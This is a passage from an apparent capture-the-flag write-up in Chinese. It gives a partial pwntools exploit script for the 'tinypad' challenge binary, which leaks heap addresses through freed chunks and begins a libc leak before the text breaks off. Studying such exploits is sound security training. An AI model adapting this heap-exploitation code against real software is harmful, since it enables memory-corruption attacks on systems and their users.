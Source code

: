 具體利用腳本如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
tinypad = ELF("./tinypad")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
    libc = ELF('./libc.so.6')
else:
    p = process("./tinypad")
    libc = ELF('./libc.so.6')
    main_arena_offset = 0x3c4b20
log.info('PID: ' + str(proc.pidof(p)[0]))


def add(size, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))


def run():
    p.recvuntil(
        '  ============================================================================\n\n'
    )
    # 1. leak heap base
    add(0x70, 'a' * 8)  # idx 0
    add(0x70, 'b' * 8)  # idx 1
    add(0x100, 'c' * 8)  # idx 2

    delete(2)  # delete idx 1
    delete(1)  # delete idx 0, idx 0 point to idx 1
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
    heap_base = u64(data.ljust(8, '\x00')) - 0x80
    log.success('get heap base: ' + hex(heap_base))

    # 2. leak libc base
    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin
```